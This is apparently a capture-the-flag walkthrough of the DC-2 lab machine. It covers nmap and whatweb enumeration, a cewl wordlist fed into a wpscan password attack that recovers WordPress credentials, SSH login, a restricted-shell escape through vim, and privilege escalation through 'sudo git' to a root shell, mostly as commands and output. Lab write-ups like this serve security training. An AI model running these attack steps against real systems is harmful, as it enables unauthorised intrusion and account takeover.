


# DC 2

***

IP=192.168.240.194

## NMAP

| PORT     | STATE | SERVICE    |
| -------- | ----- | ---------- |
| 80/tcp   | open  | http       |
| 7744/tcp | open  | raqmon-pdu |

```perl
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
```

### /etc/hosts

```txt
192.168.240.194 dc-2
```

## 80

```perl
whatweb http://dc-2
http://dc-2/ [200 OK] Apache[2.4.10], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.10 (Debian)], IP[192.168.240.194], JQuery[1.12.4], MetaGenerator[WordPress 4.7.10], PoweredBy[WordPress], Script[text/javascript], Title[DC-2 &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.7.10]
```

### wordpress

```txt
admin
jerry
tom
```


<figure><figcaption></figcaption></figure>

_cewl_ is a Ruby-based web crawler that is used for scraping words from websites to create custom wordlists. It is commonly used in cybersecurity and penetration testing contexts to generate wordlists for password cracking and other security testing purposes.

The name "cewl" stands for "_Custom Word List generator_." When used in the context of your previous message ("maybe you just need to be cewl"), it likely implies that you need to think creatively and generate a custom wordlist or use unconventional passwords or phrases to solve the challenge.

```bash
cewl http://dc-2 -w /tmp/wordlist.txt
```

```bash
wpscan --url http://dc-2/ -P /tmp/wordlist.txt -t 50
```

\[!] Valid Combinations Found: | Username: jerry, Password: adipiscing | Username: tom, Password: parturient

## 7744 - ssh

```bash
ssh tom@$IP -p 7744
parturient
```

### restricted bash

```bash
echo $PATH
/home/tom/usr/bin

ls -la /home/tom/usr/bin
```


<figure><figcaption></figcaption></figure>

https://0xffsec.com/handbook/shells/restricted-shells/

#### vim

```bash
:set shell=/bin/bash
:shell
```

```bash
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash:$SHELL
```

### sudoers

```bash
su jerry
sudo git -p help config
!/bin/sh
```
